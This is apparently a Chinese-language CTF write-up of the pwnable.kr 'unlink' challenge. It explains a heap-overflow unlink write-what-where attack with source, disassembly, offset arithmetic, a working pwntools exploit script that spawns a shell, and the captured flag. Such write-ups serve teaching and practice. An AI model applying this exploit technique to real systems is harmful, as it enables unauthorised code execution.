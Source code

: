 ```yaml
---

layout: post

title: 'pwnable.kr之初探unlink'

date: '2017-04-23'

header-img: "img/home-bg.jpg"

tags:
     - unlink
author: 'De4dCr0w'

---
```


<!-- more -->

> unlink源代码

	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>
	typedef struct tagOBJ{
		struct tagOBJ* fd;
		struct tagOBJ* bk;
		char buf[8];
	}OBJ;
	
	void shell(){
		system("/bin/sh");
	}
	
	void unlink(OBJ* P){
		OBJ* BK;
		OBJ* FD;
		BK=P->bk;
		FD=P->fd;
		FD->bk=BK;
		BK->fd=FD;
	}
	int main(int argc, char* argv[]){
		malloc(1024);
		OBJ* A = (OBJ*)malloc(sizeof(OBJ));
		OBJ* B = (OBJ*)malloc(sizeof(OBJ));
		OBJ* C = (OBJ*)malloc(sizeof(OBJ));
	
		// double linked list: A <-> B <-> C
		A->fd = B;
		B->bk = A;
		B->fd = C;
		C->bk = B;
	
		printf("here is stack address leak: %p\n", &A);
		printf("here is heap address leak: %p\n", A);
		printf("now that you have leaks, get shell!\n");
		// heap overflow!
		gets(A->buf);
	
		// exploit this unlink!
		unlink(B);
		return 0;
	}

首先要先知道为什么unlink会触发漏洞发生，主要是在

	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;

我们将想要写入的信息和地址分别填充在BK和FD中，第三行和第四行进行赋值，就可以把信息写入相应的地址，信息和地址可以互换，只要计算好相应的偏移地址即可。之前一直不理解我把BK和FD赋值后，那FD->bk和BK->fd不就指向无效地址了吗，不会报错吗？  
这里对结构的汇编形式理解不到位，堆都是定义的结构：  
  
	struct malloc_chunk {

      INTERNAL_SIZE_T      prev_size;  /* Size of previous chunk (if free).  */
      INTERNAL_SIZE_T      size;       /* Size in bytes, including overhead. */

      struct malloc_chunk* fd;         /* double links -- used only if free. */
      struct malloc_chunk* bk;

      /* Only used for large blocks: pointer to next larger size.  */
      struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
      struct malloc_chunk* bk_nextsize;
    };

结构体是分配了一段连续的内存，所以寻找结构体成员只需要结构体首地址+相应的偏移地址，回到之前，FD->bk,实际上FD这个结构体首地址加上12偏移（32位机器下），而BK
->fd则为BK的地址加上8。（glibc malloc进行unlink操作时会将FD强制看作malloc_chunk结构体）。    
反汇编的main函数：

	Dump of assembler code for function main:
	   0x0804852f <+0>:	lea    ecx,[esp+0x4]
	   0x08048533 <+4>:	and    esp,0xfffffff0
	   0x08048536 <+7>:	push   DWORD PTR [ecx-0x4]
	   0x08048539 <+10>:	push   ebp
	   0x0804853a <+11>:	mov    ebp,esp
	   0x0804853c <+13>:	push   ecx
	   0x0804853d <+14>:	sub    esp,0x14
	   0x08048540 <+17>:	sub    esp,0xc
	   0x08048543 <+20>:	push   0x400
	   0x08048548 <+25>:	call   0x80483a0 <malloc@plt>
	   0x0804854d <+30>:	add    esp,0x10
	   0x08048550 <+33>:	sub    esp,0xc
	   0x08048553 <+36>:	push   0x10
	   0x08048555 <+38>:	call   0x80483a0 <malloc@plt>
	   0x0804855a <+43>:	add    esp,0x10
	   0x0804855d <+46>:	mov    DWORD PTR [ebp-0x14],eax
	   0x08048560 <+49>:	sub    esp,0xc
	   0x08048563 <+52>:	push   0x10
	   0x08048565 <+54>:	call   0x80483a0 <malloc@plt>
	   0x0804856a <+59>:	add    esp,0x10
	   0x0804856d <+62>:	mov    DWORD PTR [ebp-0xc],eax
	   0x08048570 <+65>:	sub    esp,0xc
	   0x08048573 <+68>:	push   0x10
	   0x08048575 <+70>:	call   0x80483a0 <malloc@plt>
	   0x0804857a <+75>:	add    esp,0x10
	   0x0804857d <+78>:	mov    DWORD PTR [ebp-0x10],eax
	   0x08048580 <+81>:	mov    eax,DWORD PTR [ebp-0x14]
	   0x08048583 <+84>:	mov    edx,DWORD PTR [ebp-0xc]
	   0x08048586 <+87>:	mov    DWORD PTR [eax],edx
	   0x08048588 <+89>:	mov    edx,DWORD PTR [ebp-0x14]
	   0x0804858b <+92>:	mov    eax,DWORD PTR [ebp-0xc]
	   0x0804858e <+95>:	mov    DWORD PTR [eax+0x4],edx
	   0x08048591 <+98>:	mov    eax,DWORD PTR [ebp-0xc]
	   0x08048594 <+101>:	mov    edx,DWORD PTR [ebp-0x10]
	   0x08048597 <+104>:	mov    DWORD PTR [eax],edx
	   0x08048599 <+106>:	mov    eax,DWORD PTR [ebp-0x10]
	   0x0804859c <+109>:	mov    edx,DWORD PTR [ebp-0xc]
	   0x0804859f <+112>:	mov    DWORD PTR [eax+0x4],edx
	   0x080485a2 <+115>:	sub    esp,0x8
	   0x080485a5 <+118>:	lea    eax,[ebp-0x14]
	   0x080485a8 <+121>:	push   eax
	   0x080485a9 <+122>:	push   0x8048698
	   0x080485ae <+127>:	call   0x8048380 <printf@plt>
	   0x080485b3 <+132>:	add    esp,0x10
	   0x080485b6 <+135>:	mov    eax,DWORD PTR [ebp-0x14]
	   0x080485b9 <+138>:	sub    esp,0x8
	   0x080485bc <+141>:	push   eax
	   0x080485bd <+142>:	push   0x80486b8
	   0x080485c2 <+147>:	call   0x8048380 <printf@plt>
	   0x080485c7 <+152>:	add    esp,0x10
	   0x080485ca <+155>:	sub    esp,0xc
	   0x080485cd <+158>:	push   0x80486d8
	   0x080485d2 <+163>:	call   0x80483b0 <puts@plt>
	   0x080485d7 <+168>:	add    esp,0x10
	   0x080485da <+171>:	mov    eax,DWORD PTR [ebp-0x14]
	   0x080485dd <+174>:	add    eax,0x8
	   0x080485e0 <+177>:	sub    esp,0xc
	   0x080485e3 <+180>:	push   eax
	   0x080485e4 <+181>:	call   0x8048390 <gets@plt>
	   0x080485e9 <+186>:	add    esp,0x10
	   0x080485ec <+189>:	sub    esp,0xc
	   0x080485ef <+192>:	push   DWORD PTR [ebp-0xc]
	   0x080485f2 <+195>:	call   0x8048504 <unlink>
	   0x080485f7 <+200>:	add    esp,0x10
	   0x080485fa <+203>:	mov    eax,0x0
	   0x080485ff <+208>:	mov    ecx,DWORD PTR [ebp-0x4]
	   0x08048602 <+211>:	leave  
	   0x08048603 <+212>:	lea    esp,[ecx-0x4]
	   0x08048606 <+215>:	ret    
	End of assembler dump.

攻击点：给A堆赋值时使用了gets函数，存在溢出B堆的可能，并在gets函数后调用了unlinkB堆，存在unlink漏洞。  
在unlinkB堆后，
		
       0x080485f2 <+195>:	call   0x8048504 <unlink>
 	   0x080485f7 <+200>:	add    esp,0x10
	   0x080485fa <+203>:	mov    eax,0x0
	   0x080485ff <+208>:	mov    ecx,DWORD PTR [ebp-0x4]
	   0x08048602 <+211>:	leave  
	   0x08048603 <+212>:	lea    esp,[ecx-0x4]
	   0x08048606 <+215>:	ret  

leave相当于mov esp ebp；pop ebp，此时esp指向的是eip，最后ret弹出的是esp的所指向的地址，我们需要做的是让esp指向shellcode的位置。而esp指向的地址是由[ecx-0x4]赋值，并且ecx保存在[ebp-0x4],为什么是这样，可以看main函数开头的堆栈情况：

	0x0804852f <+0>:	lea    0x4(%esp),%ecx
   	0x08048533 <+4>:	and    $0xfffffff0,%esp
   	0x08048536 <+7>:	pushl  -0x4(%ecx)
   	0x08048539 <+10>:	push   %ebp
   	0x0804853a <+11>:	mov    %esp,%ebp
   	0x0804853c <+13>:	push   %ecx

分析main的汇编代码我们知道堆A，B，C在栈中的情况：  

* A:[ebp-0x14]
* B:[ebp-0x0c]
* C:[ebp-0x10]

所以A堆和ecx在栈中的位置相差0x14-0x4=0x10=16  
shellcode的位置放在A中buf的前四个字节，所以它相对于A堆的位置为8，所以shellcode=A堆位置+8，但给esp赋值的是[ecx-0x4],所以shellcode=[ecx-0x4],从而推出：

> A的栈位置+16=[ebp-0x4]=ecx=shellcode+0x4=（A堆位置+8）+4=A堆位置+12  

附上unlink.py: 

	from pwn import *
	#context(log_level="debug")
	s =  ssh(host='pwnable.kr',
	         port=2222,
	         user='unlink',
	         password='guest'
	        )
	p = s.process("./unlink")
	
	p.recvuntil("here is stack address leak: ")
	stack_addr = int(p.recv(10),16)
	p.recvuntil("here is heap address leak: ")
	heap_addr = int(p.recv(9),16)
	
	p.recvuntil("now that you have leaks, get shell!\n")
	
	shell_buf = 0x080484eb
	buf = 'AAAA'
	presizeB = 'AAAA'
	sizeB = 'AAAA'
	#方法一
	fdB = heap_addr + 12
	bkB = stack_addr + 16
	'''
	#方法二
	或者交换位置，但要重新计算偏移值
	bkB = heap_addr + 12
	fdB = stack_addr + 12
	'''
	payload = p32(shell_buf) + buf + presizeB + sizeB + p32(fdB) + p32(bkB)
	
	p.sendline(payload)
	
	p.interactive()

char buf[8]是8个字节，struct tagOBJ* fd;struct tagOBJ* bk;各四个字节。 
 
* 方法一主要是利用BK->fd=FD;前面的FD->bk=BK;没有影响，因为这里的chunk是自己定义的，缺少prev_size和size字段，fd就是第一个字段，实际中bkB=stack_addr + 8,要减去pre_size和size两个字段的8个字节。  
* 方法二则是利用FD->bk=BK;分析同方法一

> flag:conditional_write_what_where_from_unl1nk_explo1t